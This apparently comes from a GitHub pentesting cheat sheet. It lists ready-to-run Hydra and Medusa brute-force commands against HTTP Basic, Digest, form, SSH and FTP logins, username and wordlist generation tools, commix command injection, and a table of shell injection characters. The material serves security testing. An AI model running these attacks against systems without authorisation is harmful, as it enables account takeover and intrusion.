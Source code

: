 **BASIC authentication**

 - `hydra -l admin -P /usr/share/wordlists/1000_common_passwords.txt -f 1.2.3.4 http-get /admin/`  
    use `-s` to specify a port (e.g. `-s 8080`)
 - `hydra -L /usr/share/wordlists/common_users.txt -P /usr/share/wordlists/1000_common_passwords.txt -f 1.2.3.4 http-get /admin/`

 Try also HTTP verb tampering - so try to send `GET` requests as `POST` and vice versa to test for a insecure server configuration.

**DIGEST authentication**

This is a challenge response auth. and much more secure / difficult to attack then BASIC auth.

 - `hydra -L /usr/share/wordlists/common_users.txt -P /usr/share/wordlists/1000_common_passwords.txt -f 1.2.3.4 http-get /admin/`  
   Hydra can detect the type of auth. and that's why the same command can attack BASIC and DIGEST auth.

**Web login form**

 - `hydra -l admin -P /usr/share/wordlists/1000_common_passwords.txt https://pentest-experts.com http-post-form "/login.php:user=^USER^&password=^PASS^:F=incorrect"`  
    `^USER^` and `^PASS^` get replaced by the credentials from the list(s) and `:F=` specifies a flag to determin if the login failed  
    Use for example `:S=302` to set the success flag to the value `302`, which occure in a HTTP redirect


## Other brutefoce attack examples

 - `medusa -h 1.2.3.4 -u admin -p pass1234 -M ssh -n 2222`
 - `medusa -H host_list.txt -U /usr/share/wordlists/common_users.txt -P /usr/share/wordlists/rockyou.txt -M ftp`
 - `medusa -H host_list.txt -U /usr/share/wordlists/common_users.txt -P /usr/share/wordlists/rockyou.txt -M http -m GET`
 - `medusa -M http -m "POST /login.php HTTP/1.1\r\nContent-Length: 30\r\nContent-Type: application/x-www-form-urlencoded\r\n\r\nusername=^USER^&password=^PASS^" -h https://pentest-experts.com`

 **Username generation**

  - `./username-anarchy Jane Smith > jane_smith_usernames.txt`  
    Create a username list

**Targeted wordlists**

 - `cupp -i` (interactive mode)


## Command injection

 - `commix --url="https://pentest-experts.com/ping.php?ip=INJECT_HERE"`

**Injection characters**

```
CHAR   URL ENC.    DESCRIPTION
-----  ----------  ----------------------------
 ;     %3b         (Concatination of commands)
 \n    %0a         (Newline)
 &     %26         (Background)
 |     %7c         (Pipe)
 &&    %26%26      (Logical AND)
 ||    %7c%7c      (Logical OR)
 ``    %60%60      (Subshell)
 $()   %24%28%29   (Subshell)
```
